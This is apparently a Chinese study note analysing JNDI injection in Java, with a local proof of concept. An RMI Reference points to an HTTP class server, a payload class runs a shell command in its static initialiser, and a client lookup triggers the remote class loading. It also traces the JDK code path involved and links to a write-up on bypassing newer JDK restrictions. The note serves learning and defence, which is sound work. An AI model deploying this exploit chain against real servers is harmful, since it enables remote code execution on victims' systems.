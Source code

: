 ## JNDI注入分析

### 令人有点混乱的各种概念

开始看JRMP、RMI、JNDI有点昏，这里我的理解是JRMP是RMI调用远程类使用的通讯协议，RMI的功能主要是负责调用远程对象，JNDI可以通过指定RMI、LDAP获取资源，比如容器通过JNDI对数据库进行了配置，在代码中只需要通过JNDI拿到数据库的访问对象就可以对数据库进行操作了，不需要再在程序中配置服务器类型，账号密码等。下面这段话解释的挺好的，在一个文档里看到的。

> 在真实的项目应用中，通常是由系统程序或框加程序先将资源对象绑定到JNDI环境中，以后在该系统或框架中运行的模块程序就可以从JNDI环境中查找这些资源对象了。例如，Tomcat服务器在启动时可以创建一个连接到某种数据库系统的数据源（DataSource）对象，并将该数据源（DataSource）对象绑定到JNDI环境中，以后在这个Tomcat服务器中运行的Servlet和JSP程序就可以从JNDI环境中查询出这个数据源（DataSource）对象进行使用，而不用关心数据源（DataSource）对象是如何创建出来的，这种方式极大地增强了系统的可维护性，当数据库系统的连接参数发生变更时，这只是Tomcat系统管理员一个人要关心的事情，而与所有的应用程序开发人员无关。

### JNDI注入分析

环境：Java 1.7.0_05 
高版本对RMI加载做了限制会导致以下错误
```
The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'
```

简单实现一个JNDI和RMIRegistry会发现，客户端使用JNDI的lookup后，程序是在自己的服务器上执行之后结果返回给客户端服务器，而不是类在客户端服务器上实例化然后执行，这样我们构造恶意类绑定到RMIRegistry上是没有用的，恶意类会在我们自己的服务器上实例化。但是JNDI在处理Reference对象时不同

是先通过远程地址下载到class文件，然后对类进行实例化，此时的实例化是发生在客户端的，所以可以通过让目标向我们的RMIRegistry发送请求，然后返回一个Reference类指定恶意代码的位置，然后客户端下载并执行恶意代码。

按照网上的例子，为RMIRegistry绑定一个ReferenceWrapper对象

```java
Reference reference = new Reference("PayloadClass","PayloadClass","http://127.0.0.1:8081/");
ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
registry.rebind("referenceTest",referenceWrapper);
```

PayloadClass.java的代码

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class PayloadClass implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

其他的代码就不贴在这里了，可以看直接看测试的代码

启动RMIRegistry后会target目录下生成PayloadClass.class文件，这个文件需要从target挪走，因为客户端和服务端都是在本地做测试，JNDI在加载过程中会先读本地看是否有这个class，没有才会走我们设置的rmi，随便启动一个webserver，可以通过url访问到PayloadClass.class，这里就用python简单起一个，通过http://127.0.0.1:8081/PayloadClass.class 就可以访问到。

如下代码使用JNDI查找刚才构造的Reference对象，关键的代码只有最后一句（这里的10.10.37.77和127.0.0.1是一样的都是本地地址）

```java
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
Context ctx = new InitialContext(env);
//RMIServiceInterface RMIObject = (RMIServiceInterface) ctx.lookup("rmi://10.10.37.77:1099/getRandom");
//System.out.println(RMIObject.getRandomNumber());

RMIServiceInterface referenceTestObject = (RMIServiceInterface) ctx.lookup("rmi://10.10.37.77:1099/referenceTest");
```


虽然在lookup之前已经设置了rmi地址这些，但是在lookup方法的参数中可以指定带有scheme的参数来进行动态设置。

在执行到`RegistryContext`类的`lookup`方法时，此时的Registry已经是后边参数中的rmi://10.10.37.77:1099/了，晕了可以看下测试代码中RMI相关的测试代码。

![](media/15677656592904/15680167854714.jpg)

程序在`NamingManager`类的`getObjectFactoryFromReference`方法中本地没有找到指定的ClassFactory就会去Reference对象指定的远程地址获取
![](media/15677656592904/15680170994028.jpg)

获取到远程class之后，使用`Class.forName`对类进行了实例化，导致命令执行

![](media/15677656592904/15680140691703.jpg)

### 总结

JNDI注入的大致流程：

控制被攻击服务器作为客户端向攻击者的RMIRegistry（以RMI为例，实际具体用哪个要看JDK版本啥的了）发起请求，RMIRegistry返回一个Reference对象，服务器处理Reference对象过程，从Reference指定的地址获取恶意类进行实例化。

如果想找到一个JNDI注入，就需要找到参数用户可控的lookup方法，实际利用时高版本的JDK做了不少限制。

大佬的绕过姿势见链接

https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

